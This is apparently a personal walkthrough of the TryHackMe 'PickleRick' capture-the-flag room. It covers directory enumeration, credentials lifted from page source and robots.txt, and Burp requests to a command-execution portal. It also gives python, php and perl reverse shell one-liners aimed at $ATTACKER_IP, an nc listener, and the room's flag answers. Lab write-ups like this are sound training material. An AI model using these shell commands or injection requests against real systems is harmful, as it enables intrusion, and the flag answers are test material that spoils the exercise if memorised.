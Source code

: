 ```yaml
---
title: "PickleRick"
date: 2024-02-24T14:52:42+11:00
draft: false
tags: [ "Tryhackme", "CTF", "Capture The Flag", "Pentetesting", "Walkthrough"]
categories: ["Tryhackme"]
---
```


# Rick And Morty


username: R1ckRul3s
Found in Website Inspection.

ssh - Not Required

follow Burpsuite POST Method

## Gobuster Command

```jsx
gobuster dir -u http://$MACHINE_IP-w /root/Desktop/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt $MACHINE_IP-x .php, .txt, .py .html, .js

```

### Result

/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/denied.php (Status: 302)
/server-status (Status: 403)

## BurpSuite

### Login command

POST /login.php HTTP/1.1
Host: $MACHINE_IP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: [http://$MACHINE_IP](http://$MACHINE_IP/)
Connection: close
Referer: [http://$MACHINE_IP/login.php](http://$MACHINE_IP/login.php)
Cookie: PHPSESSID=inaov4gva88c1c1o5v1ifannn5
Upgrade-Insecure-Requests: 1

username=R1ckRul3s&password=Wubbalubbadubdub&sub=Login

password worked? from [http://$MACHINE_IP/robots.txt](http://$MACHINE_IP/robots.txt) 

```jsx
Wubbalubbadubdub
```

✅

```jsx
PHPSESSID=inaov4gva88c1c1o5v1ifannn5
```

### Code Execution Command

POST /portal.php HTTP/1.1
Host: $MACHINE_IP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: [http://$MACHINE_IP](http://$MACHINE_IP/)
Connection: close
Referer: [http://$MACHINE_IP/portal.php](http://$MACHINE_IP/portal.php)
Cookie: PHPSESSID=inaov4gva88c1c1o5v1ifannn5
Upgrade-Insecure-Requests: 1

command=ls+-a&sub=Execute

command: ls -a displays Sup3rS3cretPickl3Ingred.txt

cat Sup3rS3cretPickl3Ingred.txt ❌

- [http://$MACHINE_IP/portal.php/clue.txt](http://$MACHINE_IP/portal.php/clue.txt)

Something in comment

 Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== 

— Decode : rabbit hole

- now ls -a
    
    ```jsx
    .
    ..
    Sup3rS3cretPickl3Ingred.txt
    assets
    clue.txt
    denied.php
    index.html
    login.php
    portal.php
    robots.txt
    ```
    

## First Result

- Navigate to  $IP/assets/../Sup3rS3cretPickl3Ingred.txt
- result
    
    ```jsx
    mr. meeseek hair
    ```
    

💡

> grep -R .
> 

> will check . means everything Recursively
> 

Listen to Reverse Shell on your Machine

```jsx
nc -lvnp $PORT
```

Python 3 Works but reverse shell does not.

```jsx
python3 -c "print('Hello World!')”
```

Try these codes

```jsx
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444))
```

```jsx
php -r '$sock=fsockopen("$ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

> PYTHON DID NOT WORK PERL DID
> 

```jsx

perl -e 'use Socket;$i="$IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
```

### After Reverse shell

- check sudo
    - sudo is allowed
- Navigate around
- Let’s go to /home/rick

```jsx
cat second\ ingredients
```

second ingredient: jerry tear

More Navigation

cd 

cd root 

result: 3rd.txt

There you have 3rd ingredient:

```jsx
cat 3rd.txt
```

result: fleeb juice

## Summary

Its fairly easy room. And needs following skill:

- Directory Traversal
- Privilege Escalation (Easy as now Password is needed here)
- Reverse Shell (Perl Reverse Shell)
- Basic Linux  Commands
    - grep -R .

Thank You.